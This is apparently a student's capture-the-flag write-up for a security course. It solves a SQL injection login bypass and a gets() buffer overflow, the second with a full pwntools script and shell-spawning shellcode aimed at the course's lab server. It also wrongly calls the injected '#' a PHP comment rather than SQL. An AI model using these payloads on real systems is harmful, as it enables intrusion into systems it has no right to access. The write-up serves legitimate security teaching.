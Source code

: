 # FSI-CTFS: Week #8

## **First Challenge**

**Goal:** Login into the admin account in order to get the flag.

**Website analysis**

We are given the index.php file of out website. Let's start by analysing the php code.

```php
if (!empty($_POST)) {

    require_once 'config.php';

    $username = $_POST['username'];
    $password = $_POST['password'];
    
    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                            
    if ($result = $conn->query($query)) {
                        
        while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
        $_SESSION['username'] = $data['username'];

        echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
        include "/flag.txt";
        echo "</code>";

        }
    } else {            
        // falhou o login
        echo "<p>Invalid username or password <a href=\"index.php\">Tente novamente</a></p>";
    }
}
```

> Pay attention to this line:
```php 
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```
- The query statement is not prepared before being sent to the database! Which means we have a sql injection vulnerability!
- This allows us to exploit the query and access the admin account without the need of a password!

### **Attack**

In order to login into the admin account without a password, all we need to do is remove the password verification from the query. To do that, let's remember that in PHP, to add a comment we use the '#' char.
```php 
# This is a comment in PHP
```
If we insert 'admin';#' in the username field, the password segment of the query will become obsolete!
```php 
$query = "SELECT username FROM user WHERE username = 'admin';#' AND password = '".$password."'";
```
> Let's try it on our vulnerable website! (In the the password field, you can type in anything, as it will be commented out in the PHP code)

![Page](imgs/page1.jpg)

>And then we obtain our flag!

![Flag1](imgs/flag1.jpg)

## **Second Challenge**

**Goal:** Come up with an exploit to the buffer overflow vulnerability on the program running in the CTF server to get shell, in order to get the flag which is located in the working directory.

**Checksec**

- Architecture is x86
- Regions in the memory with RWX permissions
- No Cannary found in the stack
- Stack doesn't have execute permissions (NX -no execute- enabled)
- PIE Enabled - ASLR is enabled

![Terminal screenshot of checksec](imgs/checksec.png)

**Program analysis**

The program enabled ASLR which means now we can't 'hardcode' the memory address we want to overwrite! However, the program prints out the address in which the buffer is located.

**Program**

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

- The vulnerability is present the gets(buffer) function call. This function is known to be very dangerous to use because it is impossible to tell how many characters it will read, without knowing the input in advance.

```
Bugs section of gets man page:

Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```
That means we can cause a **buffer overflow**!

### **Attack**
> Now that we know we have a buffer overflow vulnerability in the gets function, let's figure out what we need to write to the buffer.
- If we want to open a shell, we'll need to write some shellcode into memory and then get our program to execute that shellcode

How can we do that?

We need to overwrite the return addres of the gets function call so it jumps to out shellcode instead! But to that, we need to find what the offset (&buffer - $ebp) is.

> We can achieve that with the help of gdb-peda, which is a Python Exploit Development Assistance for GDB. It add some extra funcionalities to gdb and is very useful to analyse these programs. Find more about it [here](https://github.com/longld/peda).

![Pattern #1](imgs/pattern.jpg)

- We use the pattern function to generate a 120 char pattern to memory to use as input for our program. The goal with this is to try to guess where the return addres is. And as you can see, we got a **SIGSEGV** (Segmentation fault) which means the program crash, which tells us we were able to overwrite our return address and the program wasn't able to exit the gets function as expected. So that means we are a little off on the offset but we now know it is lower that 120.

![Pattern #2](imgs/pattern2.jpg)

- We now use the pattern function to search which tells us that EIP+0 was found at offset: 107
- After testing with offset 107, we found found out it's just off by 1, so the offset is 108

> We now need to build our payload with the help of the following python script:

**Python Scipt**

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
else:
    p = remote("ctf-fsi.fe.up.pt", 4001)

# -- Shellcode for 32bit i386 -- #
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"

# -- Retrives buffer address from the program output -- #
address = p.recvline_contains(b'Your buffer is')[17:25].decode('utf-8')
print("Buffer address: " + address)

# -- Prepares buffer address for the payload -- #
buffer = bytearray.fromhex(address)
buffer.reverse()

# -- Offset found during code analysis with gdb -- #
offset= 108

# -- Payload Construction -- #
payload = shellcode + b'\x90' * (offset -  len(shellcode)) + buffer

print('Sending Payload...')
p.sendline(payload)
p.interactive()

```

Let's explain the script:
- The shellcode is a shellcode for 32bit system
- The next code segment is used to retrieve our buffer address given by the program
- We then prepare that buffer to use in our payload
- After that, we use the offset we previously found using gdb
- And finally, we construct our payload and send it to the server


> And obtained our second desired flag!

![Terminal print of attack](imgs/flag2.png)
